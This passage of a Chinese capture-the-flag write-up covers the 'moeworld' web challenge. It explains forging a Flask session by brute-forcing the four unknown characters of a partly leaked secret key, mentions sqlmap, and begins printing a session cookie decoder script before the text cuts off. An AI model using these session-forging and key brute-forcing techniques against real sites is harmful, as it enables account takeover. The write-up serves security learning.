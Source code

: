 当然也可用sqlmap直接一把梭。。

## moeworld

**CHALLENGE: moeworld  
DESCRIPTION: 你已经学会了1+1=2，接下来尝试真实的渗透吧~  
解压密码为“出去旅游的心海”的flag**

先随便注册一个账号进去看到admin的留言

![](./images/image-4.png)

很明显是要进行session伪造

给出了部分的key，虽然后面部分是随机的，但是只有四位，是可以进行爆破的

爆破脚本如下，自己修改cookie👇

```
#!/usr/bin/env python3
""" Flask Session Cookie Decoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

import zlib
from itsdangerous import base64_decode
import ast
import os
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

class FSCM:
    @staticmethod
    def decode(session_cookie_value, secret_key=None):
        try:
            if secret_key is None:
                compressed = False
                payload = session_cookie_value
                if payload.startswith('.'):
                    compressed = True
```